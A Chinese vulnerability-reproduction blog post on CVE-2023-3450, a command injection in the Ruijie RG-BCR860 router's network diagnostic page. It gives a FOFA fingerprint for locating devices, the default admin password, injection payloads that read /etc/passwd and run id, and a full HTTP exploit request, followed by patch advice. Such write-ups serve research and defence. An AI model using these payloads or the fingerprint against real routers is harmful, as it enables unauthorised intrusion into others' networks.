






【漏洞情报 | 新】CVE-2023-3450 锐捷Ruijie路由器命令执行漏洞

原创 4Zen [划水但不摆烂](javascript:void(0);) 2023-08-01 22:07 发表于广西

收录于合集#漏洞复现6个

***\*免责声明\****

文章所涉及内容，仅供安全研究与教学之用，由于传播、利用本文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

***\*产品简介\****

RG-BCR860是锐捷网络推出的一款商业云路由器，它是专为酒店、餐饮、门店设计，适用带宽100Mbps,带机量可达150台，支持Sec VPM、内置安全审计模块，给商家带来更好的网络营销体验 。该产品主支持全中文的WEB 界面配置，不再需要用传统的命令行进行配置，使得设备更加简单方便的进行维护和管理。

***\*漏洞描述\****

Ruijie RG-BCR860 2.5.13版本存在操作系统命令注入漏洞，该漏洞源于组件Network Diagnostic Page存在问题，会导致操作系统命令注入。

***\*如何识别锐捷RG-BCR860\****

favicon图标特征

 

FOFA网络测绘搜索

icon_hash="-399311436"

***\*漏洞复现\****

该漏洞属于后台漏洞，需要输入密码进入后台（默认密码admin）

 

总体概览处可查看设备型号与当前版本

 

点击左下角的“网络诊断”，在“Tracert检测”的“地址”框中，输入127.0.0.1;cat /etc/passwd，接着点击“开始检测”，会在检测框中回显命令执行结果。

 

127.0.0.1|id

 

命令执行数据包

GET /cgi-bin/luci/;stok=9ba3cc411c1cd8cf7773a2df4ec43d65/admin/diagnosis?diag=tracert&tracert_address=127.0.0.1%3Bcat+%2Fetc%2Fpasswd&seq=1 HTTP/1.1
Host: IP:PORT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
DNT: 1
Connection: close
Referer: http://IP:PORT/cgi-bin/luci/;stok=9ba3cc411c1cd8cf7773a2df4ec43d65/admin/diagnosis
Cookie: sysauth=b0d95241b0651d5fbaac5de8dabd2110

 

***\*修复建议\****

目前厂商已发布升级补丁修复漏洞，补丁获取链接：https://www.ruijie.com.cn/

该漏洞由于正常功能过滤不严格导致存在命令注入，并且需要高权限账号登录操作，建议修改登录密码为强口令，通过白名单控制访问原地址。

 